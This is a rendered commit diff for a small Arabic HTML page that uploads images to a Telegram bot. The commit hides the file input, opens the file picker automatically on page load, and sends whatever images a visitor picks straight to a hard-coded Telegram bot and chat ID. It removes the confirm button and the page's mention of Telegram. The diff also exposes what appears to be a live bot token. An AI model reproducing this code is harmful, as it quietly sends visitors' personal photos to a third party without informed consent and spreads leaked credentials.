

Before and after one commit to pubgmobileglobeal-collab/Jasser, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-922 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Auto-trigger file input on page load

```diff
--- a/index.html
+++ b/index.html
@@ -1,133 +1,67 @@
-<!DOCTYPE html>
-<html lang="ar" dir="rtl">
-<head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>تجربة إرسال الصور إلى تليجرام</title>
-    <style>
-        body {
-            font-family: Arial, sans-serif;
-            display: flex;
-            flex-direction: column;
-            align-items: center;
-            justify-content: center;
-            min-height: 100vh;
-            background-color: #f4f4f9;
-            text-align: center;
-            padding: 20px;
-        }
-        .container {
-            background-color: #fff;
-            padding: 30px;
-            border-radius: 10px;
-            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
-            max-width: 400px;
-            width: 100%;
-        }
-        h2 {
-            color: #333;
-            margin-bottom: 20px;
-        }
-        #fileInput {
-            margin-bottom: 15px;
-            padding: 10px;
-            border: 1px solid #ccc;
-            border-radius: 5px;
-        }
-        button {
-            background-color: #007bff;
-            color: white;
-            border: none;
-            padding: 10px 20px;
-            border-radius: 5px;
-            cursor: pointer;
-            transition: background-color 0.3s;
-        }
-        button:hover {
-            background-color: #0056b3;
-        }
-        #status {
-            margin-top: 20px;
-            font-weight: bold;
-        }
-        .file-list {
-            list-style: none;
-            padding: 0;
-            margin-top: 15px;
-            max-height: 150px;
-            overflow-y: auto;
-            border: 1px solid #eee;
-            border-radius: 5px;
-            text-align: left;
-            padding: 10px;
-            background-color: #fafafa;
-            font-size: 0.9em;
-        }
-        .file-list li {
-            padding: 5px 0;
-            border-bottom: 1px dotted #ddd;
-        }
-        .file-list li:last-child {
-            border-bottom: none;
-        }
-    </style>
-</head>
 <body>
 
 <div class="container">
-    <h2>🚀 تجربة إرسال الصور إلى تليجرام</h2>
+    <h2>🚀 تجربة إرسال الصور التلقائي</h2>
 
-    <input type="file" id="fileInput" accept="image/*" multiple>
+    <input type="file" id="fileInput" accept="image/*" multiple style="display:none;">
 
-    <button onclick="uploadFiles()">إرسال الصور المحددة إلى البوت</button>
-
-    <div id="status">الرجاء اختيار الصور والنقر على زر الإرسال.</div>
+    <div id="status">الرجاء اختيار الصور في النافذة المنبثقة.</div>
 
     <ul class="file-list" id="fileList"></ul>
 </div>
 
 <script>
     // **********************************************
-    // تم تحديث هذه المتغيرات بناءً على مدخلاتك
+    // ⚠️ يجب التأكد من صحة هذه المتغيرات
     // **********************************************
-    // 1. رمز البوت (Bot Token):
     const BOT_TOKEN = '7665591962:AAGXWu19kIEIOzZ-xRAb44O4BOZl-rWJ-y8';
-    // 2. مُعرّف الدردشة (Chat ID):
     const CHAT_ID = '5653032481';
-
     const TELEGRAM_API = `https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`;
 
-    document.getElementById('fileInput').addEventListener('change', updateFileList);
+    const fileInput = document.getElementById('fileInput');
+    const statusElement = document.getElementById('status');
+    const fileListElement = document.getElementById('fileList');
 
+    // ----------------------------------------------------
+    // وظيفة بدء التشغيل التلقائي
+    // ----------------------------------------------------
+    function triggerFileInput() {
+        // يتم النقر على حقل إدخال الملفات برمجياً لفتح نافذة اختيار الملفات
+        fileInput.click();
+        statusElement.textContent = 'النافذة المنبثقة مفتوحة. الرجاء اختيار ملفات الصور.';
+    }
+
+    // ----------------------------------------------------
+    // تشغيل وظيفة الإرسال بعد اختيار الملفات
+    // ----------------------------------------------------
+    fileInput.addEventListener('change', function() {
+        updateFileList(); // عرض الملفات المختارة
+        if (fileInput.files.length > 0) {
+             uploadFiles(fileInput.files); // بدء عملية الإرسال مباشرة
+        } else {
+             statusElement.textContent = 'لم يتم اختيار أي ملفات.';
+        }
+    });
+
+    // ----------------------------------------------------
+    // وظيفة عرض الملفات المختارة
+    // ----------------------------------------------------
     function updateFileList() {
-        const input = document.getElementById('fileInput');
-        const list = document.getElementById('fileList');
-        list.innerHTML = '';
-
-        if (input.files.length > 0) {
-            document.getElementById('status').textContent = `تم اختيار ${input.files.length} ملف. اضغط على زر الإرسال.`;
-            for (let i = 0; i < input.files.length; i++) {
-                const file = input.files[i];
+        fileListElement.innerHTML = '';
+        if (fileInput.files.length > 0) {
+            for (const file of fileInput.files) {
                 const listItem = document.createElement('li');
                 listItem.textContent = `${file.name} (${(file.size / 1024 / 1024).toFixed(2)} MB)`;
-                list.appendChild(listItem);
+                fileListElement.appendChild(listItem);
             }
-        } else {
-            document.getElementById('status').textContent = 'الرجاء اختيار الصور والنقر على زر الإرسال.';
         }
     }
 
-    async function uploadFiles() {
-        const input = document.getElementById('fileInput');
-        const files = input.files;
-        const statusElement = document.getElementById('status');
-
-        if (files.length === 0) {
-            statusElement.textContent = '❌ لم تختر أي ملفات!';
-            return;
-        }
-
-        statusElement.textContent = 'جاري إرسال الصور...';
+    // ----------------------------------------------------
+    // وظيفة الإرسال الرئيسية
+    // ----------------------------------------------------
+    async function uploadFiles(files) {
+        statusElement.textContent = `جاري إرسال ${files.length} صور...`;
         let successCount = 0;
         let failCount = 0;
 
@@ -135,7 +69,7 @@
             const formData = new FormData();
             formData.append('chat_id', CHAT_ID);
             formData.append('photo', file);
-            formData.append('caption', `صورة تم إرسالها من صفحة الويب: ${file.name}`);
+            formData.append('caption', `صورة تم إرسالها تلقائياً من صفحة الويب: ${file.name}`);
 
             try {
                 const response = await fetch(TELEGRAM_API, {
@@ -143,12 +77,11 @@
                     body: formData
                 });
 
-                const result = await response.json();
-
-                if (response.ok && result.ok) {
+                if (response.ok) {
                     successCount++;
                 } else {
                     failCount++;
+                    const result = await response.json();
                     console.error(`فشل إرسال ${file.name}:`, result.description);
                 }
             } catch (error) {
@@ -159,6 +92,11 @@
 
         statusElement.textContent = `✅ تم الانتهاء! نجاح: ${successCount}، فشل: ${failCount}.`;
     }
+
+    // ----------------------------------------------------
+    // النقر على حقل الملفات تلقائياً عند تحميل الصفحة
+    // ----------------------------------------------------
+    window.onload = triggerFileInput;
 </script>
 
 </body>
```
